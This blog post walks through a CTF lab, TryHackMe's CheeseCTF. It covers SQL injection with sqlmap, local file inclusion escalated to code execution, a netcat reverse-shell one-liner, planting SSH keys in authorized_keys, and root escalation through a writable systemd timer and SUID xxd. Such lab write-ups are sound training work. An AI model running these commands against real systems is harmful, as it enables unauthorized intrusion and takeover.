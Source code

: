 +++
tags = ["tryhackme", "easy"]
difficulty = "easy"
date = "2025-07-04"
description = "CheeseCTF Writeup"
featured = "/writeups/tryhackme/cheesectf/1.png"
featuredalt = ""
featuredpath = "date"
linktitle = ""
title = "[EASY] CheeseCTF"
slug = "cheesectf"
type = "post"
+++

[Link to the room!](https://tryhackme.com/r/room/cheesectfv10)

## Enumeration

Let's start by running a basic nmap scan to check for open ports in the machine.

```bash
nmap cheesectf.thm
```
![](/writeups/tryhackme/cheesectf/1.png)

Nmap shows a lot of open ports, so it seems sensible to try to access a potential web server.

![](/writeups/tryhackme/cheesectf/2.png)

We can test the HTTP form on the login.php endpoint by trying to look for a SQL injection.

![](/writeups/tryhackme/cheesectf/3.png)

## Exploitation

### SQL injection via SQLMap

After checking the POST request sent to login.php (from our Network tab in our web browser), we can see that the login data is sent to /login.php via two POST parameters called username and password. We should definitely check out SQLMap to test for SQL injection in these parameters:

![](/writeups/tryhackme/cheesectf/4.png)

```bash
sqlmap -u http://cheesectf.thm --data "username=1&password=1"
```

![](/writeups/tryhackme/cheesectf/5.png)

As can be seen above, SQLMap shows that the POST parameter 'username' is vulnerable to a time-based SQL injection. Also, upon trying this injection SQLMap gets a 302 redirection to a new endpoint. Let's copy this URL to our web browser.

### Elevating LFI to RCE using PHP filters

Now that we're in the /secret-script.php endpoint, we can test the 'file' GET parameter for an LFI vulnerability. This way, we can actually dump /etc/passwd.

```
http://cheesectf.thm/secret-script.php?file=/etc/password
```

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
comte:x:1000:1000:comte:/home/comte:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
```

After trying to access other files such as Apache's access.log in order to test for log poisoning, I wasn't successful. This is when I decided to elevate to RCE using PHP filters. I found this URL that contained a Python script that was certainly useful:

[Link here!](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

After modifying the script we get a successful Proof of Concept:

![](/writeups/tryhackme/cheesectf/6.png)

Now that our RCE vulnerability seems exploitable, let's run a NetCat listener in our local machine and attempt to get a reverse shell:

```bash
nc -lvnp 2509 # on the attacker
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.5 2509 >/tmp/f # on the script
```

## Post-Exploitation

We have successfully exploited the machine, so now we can stabilize our shell (optional) and do some reconnaissance looking for privilege escalation vectors.

[More info here!](https://saeed0x1.medium.com/stabilizing-a-reverse-shell-for-interactive-access-a-step-by-step-guide-c5c32f0cb839)

Nothing seems especially suspicious, so let's get LinPeas into the machine and run it:

![](/writeups/tryhackme/cheesectf/7.png)

After running LinPeas, there are two things we should definitely check out:

![](/writeups/tryhackme/cheesectf/8.png)

- We're allowed to write to /etc/systemd/exploit.timer, although for now there is nothing we can do.

- We have write privileges on Comte's authorized keys (/home/comte/.ssh/authorized_keys), so we can generate a pair of SSH keys and login as Comte.

### Escalating to the comte user - generating SSH keys

To generate our keys:

```bash
ssh keygen -t rsa
```

Now, let's save the public key in Comte's authorized keys:

```bash
cat id_rsa.pub > /home/comte/.ssh/authorized_keys
```

Now let's copy our SSH private key to our local machine, give it the approppriate permissions and use it to login via SSH:

```bash
chmod 400 id_rsa
ssh -i id_rsa comte@cheesectf.thm
```

### Escalating to the root user - abusing badly configured services

Now we're Comte! Let's get the user flag and check what we can run as sudo:

![](/writeups/tryhackme/cheesectf/9.png)

Curiously enough, we have write privileges to exploit.timer. Attempting to use sudo to run the exploit.timer service throws an error:

![](/writeups/tryhackme/cheesectf/10.png)

After using cat to check out exploit.service, we can see that what the service does is copy /usr/bin/xxd to the opt directory and make it an SUID binary, something we can definitely exploit in the near future.

But for now, after using cat on the exploit.timer file, we can see that the OnBootSec option has no value, probably why it's throwing an error:

```
[Unit]
Description=Exploit Timer
```

```
[Timer]
OnBootSec=
```

```
[Install]
WantedBy=timers.target
```

Thankfully this error is fixed by setting OnBootSec=0, so now if we restart the daemon and go to the opt directory, we can see a new SUID binary.

### Escalating to the root user - abusing badly configured services

![](/writeups/tryhackme/cheesectf/11.png)

After checking out GTFObins, we can see that xxd as an SUID binary allows us to get both read and write privileges over all root-owned files. We have two options

- Either guessing that the flag is in /root/root.txt and reading it right away.

- Or generating a pair of SSH keys and saving the public key to /root/.ssh/authorized_keys, allowing us to log in as root via SSH (as we did before with the Comte user).

I'll do the second option, as the purpose of boot2root is to actually root the machine, rather than just grabbing the root flag.

```bash
cat /home/comte/.ssh/authorized_keys | /opt/xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

Now, let's log in as root:

```bash
ssh -i id_rsa root@cheesectf.thm
```

We can now grab the root flag and so we have rooted this machine!